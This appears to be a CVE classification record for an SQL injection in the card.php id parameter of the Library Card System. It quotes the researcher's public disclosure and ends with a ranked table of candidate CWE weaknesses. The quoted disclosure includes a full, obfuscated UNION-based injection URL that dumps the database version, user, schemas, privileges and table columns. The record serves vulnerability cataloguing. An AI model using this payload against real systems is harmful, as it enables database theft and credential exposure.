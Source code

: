 # Vulnerability Information: CVE-2025-1356

## Vulnerability Description
A vulnerability was found in needyamin Library Card System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file card.php. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The vendor was contacted early about this disclosure but did not respond in any way.

### Vulnerability Description Key Phrases
- **component:** card.php
- **vector:** manipulation of id argument
- **weakness:** **sql injection, SQL injection vulnerability**
- **product:** needyamin Library Card System
- **version:** 1

## CVE Reference Links Content Summary
```
Title of the Vulnerability:   Needyamin | Library-Card-System 1.0 | card.php?id= SQL Injection | Found By Maloy Roy Orko
Vulnerability Class: SQL Injection
Product Name: Library-Card-System
Vendor: https://github.com/needyamin/
Vulnerable Product Link: https://github.com/needyamin/Library-Card-System/
Technical Details & Description: The application source code is coded in a way which allows SQL Injection. This leads into mass user data in risk and database leaks can be happened by hackers too and admin panel credentials were in risk too.
Observation & Exploitation:
Vulnerable Parameter: card.php?id=
Exploit:  http://192.168.0.100:8080/libb/card.php?id=40'AND+0+UNION+SELECT+1,2,3,4,5,6,/\*!50000cOncat/\*\*Darknet-Haxor\*\*/\*/(0x223e273e3c2f7469746c653e,0x3c703e3c62723e3c6120687265663d2223223e3c696d67207469746c653d224841584f5222207372633d2268747470733a2f2f312e62702e626c6f677370b702f2d756939795f376b6a5a51512f5836356f51356d4d5a34492f41414141414141414144412f45374e7a42316e686270516e314a316d4e474f58335a783857744a537250354177434c63424741735948512f733332302f32303230313131335f3137303032382e706e6722206865696768743d22313530222077696474683d2231353022/3e3c2f613e3c2f703e3c62723e3c666f6e7420636f6c6f723d22726564223e3c623e496e6a656374656420627920,0x4d616c6f7920526f79204f726b6f,0x3c2f623e3c2f666f6e743e3c62723e3c62723e,0x3c666f6e7420636f6c6f723d22626c7565223e,0x56455253494f4e3a3a20,/\*!50000VerSiOn/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x555345523a3a20,/\*!50000UsEr/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x44415441424153453a3a20,/\*!50000DaTabaSe/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x3c62723e,0x544f54414c2044415441424153453a3a20,0x3c62723e,(SeLECT(@w)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000SeLECT/\*\*Darknet-Haxor\*\*/\*/(@w:=0x00) ,(SeLECT(@w)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000InFOrMATIoN\_SChEmA/\*\*Darknet-Haxor\*\*/\*/.SCheMaTA)/\*!50000WhErE/\*\*Darknet-Haxor\*\*/\*/(@w)IN(@w:=/\*!50000CoNCaT/\*\*Darknet-Haxor\*\*/\*/(0x20,@w,0x3c666f6e7420636f6c6f723d22726564223e2d2d2d2d2d2d3e203c2f666f6e743e,/\*!50000sCheMa\_NaMe/\*\*Darknet-Haxor\*\*/\*/,0x3c62723e))))w),0x3c62723e,0x3c62723e,0x555345522050524956494c4547453a3a20,0x3c62723e,(SeLECT(@z)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000SeLECT/\*\*Darknet-Haxor\*\*/\*/(@z:=0x00) ,(SeLECT(@z)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000INFOrmATiON\_SChEmA/\*\*Darknet-Haxor\*\*/\*/.UsER\_PRIViLEgES)/\*!50000WhERE/\*\*Darknet-Haxor\*\*/\*/(@z)IN(@z:=/\*!50000CoNCaT/\*\*Darknet-Haxor\*\*/\*/(0x20,@z,0x3c666f6e7420636f6c6f723d22726564223e2d2d2d2d2d2d3e203c2f666f6e743e,GrANtEE,0x202d3e20,Is\_gRANTaBLE,0x3c62723e))))z),0x3c2f666f6e743e,0x3c62723e,0x3c62723e,0x3c666f6e7420636f6c6f723d22696e6469676f223e3c2d2d2d204441524b4e4554202d204841584f52202d2d2d3e3c2f666f6e743e3c62723e,(selEct(@x)/\*!50000fRom/\*\*Darknet-Haxor\*\*/\*/(/\*!50000sElect/\*\*Darknet-Haxor\*\*/\*/(@x:=0x00),(sElect(0)/\*!From/\*\*Darknet-Haxor\*\*/\*/(/\*!50000inforMation\_schEma.coLuMns/\*\*Darknet-Haxor\*\*/\*/)/\*!50000Where/\*\*Darknet-Haxor\*\*/\*/(taBle\_schema=/\*!50000DatAbase/\*\*Darknet-Haxor\*/\*/())and(0x00)in(@x:=/\*!50000coNcat/\*\*Darknet-Haxor\*\*/\*/(@x,0x3c62723e,0x3c666f6e7420636f6c6f723d22726564223e2d2d3e203c2f666f6e743e,0x3c666f6e7420636f6c6f723d22677265656e223e,/\*!50000tAble\_naMe/\*\*Darknet-Haxor\*\*/\*/,0x3c666f6e7420636f6c6f723d22726564223e203a3a203c666f6e7420636f6c6f723d22677265656e223e,/\*!50000colUmn\_naMe/\*\*Darknet-Haxor\*\*/\*/))))x)),8,9,10,11,12,13--+
Impact of exploitation:  mass user data in risk and database leaks can be happened by hackers too and admin panel credentials were in risk too.
```

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | alternate_terms | 1.000 |
| 2 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.473 |
| 3 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.400 |
| 4 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.392 |
| 5 | 117 | Improper Output Neutralization for Logs | Base | Allowed | sparse | 0.392 |
| 6 | 306 | Missing Authentication for Critical Function | Base | Allowed | sparse | 0.378 |
| 7 | 352 | Cross-Site Request Forgery (CSRF) | Compound | Allowed | sparse | 0.373 |
| 8 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.371 |
| 9 | 639 | Authorization Bypass Through User-Controlled Key | Base | Allowed | dense | 0.561 |
| 10 | 93 | Improper Neutralization of CRLF Sequences ('CRLF Injection') | Base | Allowed | graph | 0.002 |

